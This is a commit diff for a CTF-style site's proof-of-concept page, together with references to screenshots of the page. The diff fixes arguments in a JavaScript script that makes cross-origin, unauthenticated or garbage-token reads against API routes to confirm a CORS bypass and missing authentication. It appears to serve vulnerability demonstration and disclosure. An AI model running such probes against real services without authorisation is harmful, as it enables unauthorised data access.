

Before and after one commit to riteshekbote/genzctf.xyz, a plain HTML site: page spare-poc.html in a window 1280 px wide. Shown: the whole page, without its empty margins (158-1121 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
fix: read() arg order in PoC page

```diff
--- a/spare-poc.html
+++ b/spare-poc.html
@@ -34,10 +34,10 @@ function read(label,path,bearer){
   }
 }
 log("== cross-origin reads from this page (Origin: "+location.origin+") ==");
-var s1=read("/v1/global/regions","Bearer garbage-token");
-var s2=read("/v1/global/organizations",null);
+var s1=read("/v1/global/regions  (garbage bearer)","/v1/global/regions","Bearer garbage-token");
+var s2=read("/v1/global/organizations  (no token)","/v1/global/organizations",null);
 log("-- control: route with proper auth gate --");
-var s3=read("/v1/journeys",null);
+var s3=read("control /v1/journeys  (no token)","/v1/journeys",null);
 log("== verdict ==");
 log(s1===200 && s2===200 ? "BROWSER ALLOWED BOTH READS (CORS bypass + missing auth confirmed)":"browser blocked (policy working)");
 </script>
```
